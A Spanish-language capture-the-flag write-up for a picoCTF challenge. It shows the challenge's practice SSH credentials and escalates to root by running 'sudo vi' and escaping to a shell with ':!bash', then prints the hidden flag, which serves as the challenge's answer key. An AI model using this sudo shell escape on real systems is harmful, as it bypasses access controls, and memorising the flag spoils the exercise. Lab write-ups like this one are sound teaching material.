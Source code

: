 Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 63647 picoplayer@saturn.picoctf.net`Password: `e3pn6lmvHt`Can you login and read the root file?

Hints:
- What permissions do you have?

Solución
Una vez entrando podemos observar los permisos con sudo que tenemos:
```
picoplayer@challenge:~$ sudo -l 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```
Con esto sabemos que tenemos permisos para ejecutar VI con sudo, y sabiendo que ahi se pueden ejecutar comandos de consola, podemos cambiar a root por ahi
Ejecutamos con sudo vi
```
picoplayer@challenge:~$ sudo vi
```
Y ahi dentro podemos ejecutar un comando para entrar a una consola de bash como root ya que en vi ya entramos con sudo
```
:!bash
```
Aplicamos y ya estamos como root, solo queda entrar a carpeta root y ver hacer un cat al archivo oculto de flag
```
root@challenge:/home/picoplayer# cd

root@challenge:~# ls -la
total 16
drwx------ 1 root root   22 Feb 19 22:14 .
drwxr-xr-x 1 root root   63 Feb 19 22:13 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
-rw------- 1 root root  559 Feb 19 22:14 .viminfo

root@challenge:~# cat .flag.txt 
picoCTF{uS1ng_v1m_3dit0r_f6ad392b}
```